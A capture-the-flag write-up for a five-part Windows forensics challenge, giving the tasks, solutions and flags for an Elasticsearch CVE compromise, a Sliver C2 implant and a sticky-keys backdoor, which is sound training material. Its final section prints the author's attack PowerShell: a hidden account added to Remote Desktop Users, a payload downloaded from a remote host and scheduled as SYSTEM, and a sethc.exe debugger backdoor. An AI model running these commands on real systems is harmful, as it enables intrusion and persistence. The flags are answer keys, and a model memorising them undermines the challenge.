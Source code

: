 # Wimdows 1
Description:
```markdown
Earlier this week, an attacker managed to get into one of our Windows servers... can you help us figure out what happened? The VM files for this challenge are located below (the credentials are `vagrant`/`vagrant`):

* https://byu.box.com/v/byuctf-wimdows

What CVE did the attacker exploit to get a shell on the machine? Wrap your answer in `byuctf{}`. E.g. `byuctf{CVE-2021-38759}`

Hint: Figure out what process the attacker exploited and look up vulnerabilities associated with it.
```

**Author**: `deltabluejay`

## Writeup
They exploited ElasticSearch using CVE-2014-3120. In Windows Event Log, there are a variety of suspicious Sysmon logs spawned as `SYSTEM` with a parent process of `elasticsearch-service-x64.exe` process. Looking up this version of ElasticSearch (1.1.1) reveals a few CVEs, but only one is an RCE vulnerability, making it the only correct choice.

**Flag** - `byuctf{CVE-2014-3120}`

# Wimdows 2
Description:
```markdown
This challenge uses the same files as for Wimdows 1.

Once they got in, the attacker ran some commands on the machine, but it looks like they tried to hide what they were doing. See if you can find anything interesting there (your answer will be found already in `byuctf{}` format).
```

**Author**: `deltabluejay`

## Writeup
Check Windows Event Log. There are PowerShell logs with base64-encoded commands. There's a flag hidden in one of them.

**Flag** - `byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}`

# Wimdows 3
Description:
```markdown
This challenge uses the same files as for Wimdows 1.

The attacker also created a new account- what group did they add this account to? Wrap your answer in `byuctf{}`. E.g. `byuctf{CTF Players}`.

*Reminder - all answers are case-insensitive for all of these problems*
```

**Author**: `deltabluejay`

## Writeup
In the Event Log, there is an event showing them adding the `phasma` account to the RDP Users group.

**Flag** - `byuctf{Remote Desktop Users}`

# Wimdows 4
Description:
```markdown
This challenge uses the same files as for Wimdows 1.

Using their access, the attacker also deployed a C2 binary on the machine - what C2 framework was it, and what IP address was the C2 attempting to connect to? Format your answer like so: `byuctf{<c2 framework>_<ip address>}`. E.g. `byuctf{evilosx_10.1.1.1}`
```

**Author**: `deltabluejay`

## Writeup
There are multiple ways to do this. One method is to upload the malicious binary (`C:\Windows\System32\update.exe`) to VirusTotal to determine what C2 it is, then run it and use netstat to find what it's trying to connect to.

**Flag** - `byuctf{sliver_192.168.1.224}`

# Wimdows 5
```markdown
This challenge uses the same files as for Wimdows 1.

Last but not least, the attacker put another backdoor in the machine to give themself SYSTEM privileges... what was it? (your answer will be found directly in `byuctf{}` format)
```

**Author**: `deltabluejay`

## Writeup
The backdoor is in the sticky keys feature. In Sysmon logs, there's a registry modification event where you can see that the sticky keys registry key is modified to spawn `cmd.exe` with a comment at the end containing the flag.

**Flag** - `byuctf{00p5_4ll_b4ckd00r5_139874}`

# How this challenge was made
From the attack box, I got a shell with the CVE using a custom Python script. Then, I ran:
```powershell
# Part 2
whoami /priv
ls -l
write-output 'byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}'
get-process
get-service

# Part 3
net user phasma f1rst0rd3r! /add
New-Item -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Force | Out-Null
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "phasma" -Value 0 -PropertyType DWord -Force
net localgroup "Remote Desktop Users" phasma /add

# Part 4
$BINARY='C:\Windows\System32\update.exe'
$ProgressPreference = 'SilentlyContinue'
Invoke-WebRequest -Uri "http://${server_ip}:8000/update.exe" -OutFile $BINARY
schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest
schtasks /run /tn "updates"

# Part 5 (in sliver session)
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe #byuctf{00p5_4ll_b4ckd00r5_139874}" /f
```